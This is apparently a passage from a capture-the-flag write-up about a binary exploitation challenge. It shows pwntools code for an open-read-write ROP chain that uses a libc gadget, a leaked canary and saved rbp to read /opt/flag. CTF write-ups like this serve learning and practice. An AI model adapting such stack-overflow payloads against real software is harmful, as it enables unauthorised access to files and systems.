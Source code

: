 ![Handler](disasm1.png)


This didn't give me much, unfortunately.

I did find a string I later used for the `%d` at `exe_base + 0x2080`

![printf](string.png)

## The actual solve

I finally tried to do a ropchain with open - read - write .
But I didn't know which FD would be returned from open(), and I didn't want to assume it would be on FD 3, So I wrote a chain to find out.

Used a gadget with "xchg eax, edx" to put the returned FD into the right register for `dprintf` and the string with `%d` from the leaked executable to get the following chain:

```python
rop.open(buffer,0)
rop.raw(libc.address + 0x0cea5a)  # 0x00000000000cea5a : xchg eax, edx ; ret
rop.rdi = 4
rop.rsi = exe_base+0x2080
rop.call(rop.ret)
rop.call(libc.sym.dprintf)

io = start()
io.sendafter(b'> ', flat({ 0: b'/opt/flag\0', 0x48: p64(canary), 0x50: p64(rbp), 0x58: rop.chain()}))
```
